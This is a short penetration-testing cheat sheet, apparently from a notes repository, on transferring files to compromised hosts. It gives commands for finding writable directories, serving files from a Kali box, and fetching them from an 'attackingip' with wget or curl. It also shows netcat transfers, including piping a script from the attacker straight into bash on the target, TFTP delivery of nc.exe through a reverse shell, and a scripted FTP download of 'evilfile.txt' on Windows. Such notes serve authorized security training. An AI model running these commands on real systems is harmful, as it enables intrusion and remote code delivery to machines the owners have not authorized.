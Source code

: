 ## File Transfers
#### Find writable directories in Linux
```
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
```
#### To host files in Kali
```
python -m SimpleHTTPServer 80
```
#### To download files
```
wget http://attackingip/file.ext
# or
curl http://attackingip/file.ext > file.ext

```
#### Netcat File Transfer
```
# Setup a listener to receive file
nc -nlvp 55555 > file

# Now send the file
nc iptoreceivefile 55555 < file 
```
#### Alternate Netcat File Transfer to execute automatically in bash
```
# On attacking box
cat LinEnum.sh | nc -lvnp 9001

# On target machine
nc attackingip 9001 | bash
```
#### TFTP UDP Transfer
```
# Create directory to serve files
mkdir /tftp

# Start atftpd daemon and listen on UDP port 69 using /tftp as root
atftpd --daemon --port 69 /tftp

# Copy file to share to host directory
cp /usr/share/windows-binaries/nc.exe /tftp/

# In your reverse/bind shell on the target machine, change 10.11.1.140 to attacking ip
tftp -i 10.11.1.140 GET nc.exe
```
---
#### FTP File Transfer
On attacking machine, setup an ftp server
```
apt-get install pure-ftpd
```

Download and run the following setup file, it will create an ftp user 'bedford'
[setup-ftp](/setup-ftp)

Change user permissions, run file and set password on request
```
chmod 755
./setup-ftp
```

Copy and paste the following code into your Windows target bind/reverse shell
```
echo open 10.11.1.140 21> ftp.txt
echo user bedford>> ftp.txt
echo urpasswd>> ftp.txt
echo bin>> ftp.txt
echo GET evilfile.txt>> ftp.txt
echo bye>> ftp.txt
```
Now in your Windows bind/reverse shell run the ftp.txt file
`ftp -v -n -s:ftp.txt`

---
#### File Transfer using SSH
```
scp filename username@ipaddress
# Then enter password at prompt
```
